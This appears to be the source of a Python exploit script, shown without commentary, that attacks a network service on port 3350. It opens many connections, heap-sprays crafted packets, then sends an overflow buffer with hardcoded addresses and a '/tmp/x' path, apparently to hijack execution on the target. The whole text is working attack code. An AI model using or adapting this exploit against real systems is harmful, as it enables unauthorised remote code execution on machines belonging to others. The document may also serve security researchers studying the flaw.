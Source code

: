 ```
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",3350))
 
# padding args_str
con_list=[0]*300
for i in range(14):
    con_list[i] = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    con_list[i].connect(("127.0.0.1",3350))
    sdata = b''
    sdata += struct.pack("I",0x2222CCCC) #version
    sdata += struct.pack(">I",0x80000000) #headersize
    con_list[i].send(sdata)
    sdata = pack_addr()*0xd0
    con_list[i].send(sdata)
 
con_list[14] = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
con_list[14].connect(("127.0.0.1",3350))
con_list[15] = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
con_list[15].connect(("127.0.0.1",3350))
 
x = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
x.connect(("127.0.0.1",3350))
 
# padding args_str_addr
con_list2=[0]*300
def heap_spary(x,y):
    for i in range(x,y):
        con_list2[i] = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        con_list2[i].connect(("127.0.0.1",3350))
        sdata = b''
        sdata += struct.pack("I",0x2222CCCC) #version
        sdata += struct.pack(">I",0x80000000) #headersize
        con_list2[i].send(sdata)
        sdata = pack_addr2()*0x3f0
        con_list2[i].send(sdata)
        time.sleep(0.05)
 
heap_spary(0,50)
heap_spary(50,100)
heap_spary(100,150)
 
#init stream
sdata = b''
sdata += struct.pack("I",0x2222CCCC)
sdata += struct.pack(">I",0x80000000)
con_list[15].send(sdata)
sdata = b'D'*0x10
con_list[15].send(sdata)
 
# heap_overflow
sdata = b''
sdata += struct.pack("I",0x2222CCCC)
sdata += struct.pack(">I",0x80000000)
con_list[14].send(sdata)
sdata = b'C'*0x4140+b"\xb1\x02\x00\x00\x00\x00\x00\x00"+b"/tmp/x\x00\x00"+b"\x01\x00\x00\x00"*2
sdata+=b"\x02\x00\x00\x00\x00\x00\x00\x00"+b"\xba\xc9\x40\x00\x00\x00\x00\x00"+b"\x00\x00\x00\x00\x00\x00\x00\x00"
sdata+=b"\x00\x00\x00\x7f\x00\x00\x00\x00"+b"\xba\xc9\x40\x00\x00\x00\x00\x00"+b"\xf0\x93\x3a\x02\x00\x00\x00\x00"
sdata+=b"P"*0x240+b"\xf0\x3b\x40\x00\x00\x00\x00\x00"+b"\xf0\x3a\x40\x00\x00\x00\x00\x00"
sdata+=b"\x64\x54\x40\x00\x00\x00\x00\x00"
con_list[14].send(sdata)
 
```